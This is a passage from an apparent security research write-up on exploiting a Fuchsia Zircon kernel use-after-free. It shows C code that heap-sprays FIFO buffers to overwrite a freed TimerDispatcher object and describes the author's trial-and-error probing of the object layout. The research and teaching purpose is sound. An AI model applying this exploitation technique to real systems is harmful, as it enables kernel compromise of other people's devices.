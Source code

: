 Here the `zx_fifo_create()` syscall is executed 10 times. Each of them creates a pair of FIFOs that contain 31 elements. The size of each element is 8 bytes. So this code creates 20 `FifoDispatcher` objects with 248-byte data buffers.

And here the Zircon FIFOs are filled with the heap spraying payload that is prepared for overwriting the freed `TimerDispatcher` object:

```c
  for (int i = 0; i < N; i++) {
    status = zx_fifo_write(out0[i], 8, spray_data, 31, &write_result);
    if (status != ZX_OK || write_result != 31) {
      printf("[-] writing to fifo 0-%d failed, error %d, result %zu\n", i, status, write_result);
      return 1;
    }
    status = zx_fifo_write(out1[i], 8, spray_data, 31, &write_result);
    if (status != ZX_OK || write_result != 31) {
      printf("[-] writing to fifo 1-%d failed, error %d, result %zu\n", i, status, write_result);
      return 1;
    }
  }

  printf("[+] heap spraying is finished\n");
```

> Ok, I got the ability to change the TimerDispatcher object contents. But what to write into it to mount the attack?

# C++ object anatomy

As a Linux kernel developer, I got used to C structures describing kernel objects. A method of a Linux kernel object is implemented as a function pointer stored in the corresponding C structure. This memory layout is explicit and simple.

But the memory layout of C++ objects in Zircon looked much more complex and obscure to me. I tried to study the anatomy of the `TimerDispatcher` object and showed it in GDB using the command `print -pretty on -vtbl on`. The output was a big mess, and I didn't manage to correlate it with the hexdump of this object. Then I tried the `pahole` utility for `TimerDispatcher`. It showed the offsets of the class members, but didn't help with understanding how class methods are implemented. Class inheritance made the whole picture more complicated.

I decided not to waste my time on studying `TimerDispatcher` object internals, but try blind practice instead. I used the FIFO heap spraying to overwrite the whole `TimerDispatcher` with zero bytes and saw what happened. Zircon crashed at the assertion in `zircon/system/ulib/fbl/include/fbl/ref_counted_internal.h:57`:

```c++
    const int32_t rc = ref_count_.fetch_add(1, std::memory_order_relaxed);

    //...
    if constexpr (EnableAdoptionValidator) {
      ZX_ASSERT_MSG(rc >= 1, "count %d(0x%08x) < 1\n", rc, static_cast<uint32_t>(rc));
    }

```


[0]: 0xffdffe64ffdffd24
[1]: 0xffdcb5a4ffe00454
[2]: 0xffdffea4ffdc7824
[3]: 0xffd604c4ffd519f4